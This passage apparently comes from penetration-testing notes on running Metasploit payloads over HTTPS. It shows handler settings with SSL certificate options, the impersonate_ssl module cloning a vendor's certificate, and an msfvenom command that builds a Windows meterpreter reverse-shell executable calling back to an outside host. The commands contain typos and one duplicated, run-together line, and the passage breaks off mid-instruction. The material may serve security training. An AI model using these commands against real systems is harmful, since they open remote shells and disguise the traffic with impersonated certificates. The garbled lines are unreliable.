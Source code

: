 ```
set lhost zinitiative.com
set lport 443
set handlersslcert /root/unified.pem
set stagetverifysslcert true
set enablestageencoding true
run
```

## <mark style="color:red;">Using Payloads with HTTP SSL</mark>

```
use auxiliary/gather/impersonate_ssl

# we use symantec websit as an example:
set rhost www.symantec.om
run
```

![](<../.gitbook/assets/image (296) (1) (1) (1) (1) (1).png>)

we have the cert now create a payload using the cert:

```
msfvenom -p windows/meterpreter/reverse_tcp lhosrt=1.2.3.4 lport=1234 handlersslcert=/root/.msf5/loot/fsdvd/cert.pem stagerverifysslcert=true -f exe -o payload.exemsfvenom -p windows/meterpreter/reverse_tcp lhosrt=1.2.3.4 lport=1234 handlersslcert=/root/.msf5/loot/fsdvd/cert.pem stagerverifysslcert=true -f exe -o payload.exe
```

in handler setting:
